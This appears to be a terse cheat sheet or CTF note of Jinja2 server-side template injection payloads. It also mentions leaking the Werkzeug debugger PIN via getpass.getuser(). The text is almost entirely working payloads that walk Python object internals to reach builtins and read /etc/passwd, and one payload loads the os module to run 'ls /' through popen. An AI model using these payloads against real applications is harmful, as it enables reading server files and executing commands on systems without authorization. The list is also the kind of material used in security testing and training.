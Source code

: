 PIN use getpass.getuser(), leak from Werkzeug:
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}
{% endif %}
{% endfor %}
```

ssti:
```
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}  

{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}
```

Alternative __enter__ or __exit__:
```
{{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}   

{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

```

get ls
```
{{[].__class__.__base__.__subclasses__()[84]["load_module"]("os")["popen"]("ls /").read()}}
```


